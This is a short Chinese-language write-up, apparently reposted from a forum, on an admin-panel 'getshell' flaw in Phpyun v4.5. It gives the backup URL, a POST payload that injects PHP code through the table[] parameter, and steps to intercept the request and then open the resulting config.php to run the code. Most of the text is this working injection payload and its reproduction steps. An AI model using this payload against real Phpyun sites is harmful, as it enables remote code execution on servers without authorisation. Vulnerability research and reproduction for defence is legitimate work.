




# Phpyun v4.5 后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3092](https://www.zhihuifly.com/t/topic/3092)

# Phpyun v4.5 后台getshell

## 一、漏洞简介

## 二、漏洞影响

Phpyun v4.5

## 三、复现过程

### payload：

```
Url： http://www.0-sec.org/admin/index.php?m=database&c=backup `Post：

pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111` 
```

漏洞复现过程： 首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份



抓包，修改table[] 参数-》发送





产生的文件就在uploads/data/plus/bdata/phpyun_20200312153927/config.php
Url：访问（这里搭建的时候环境，我默认指向了uploads）

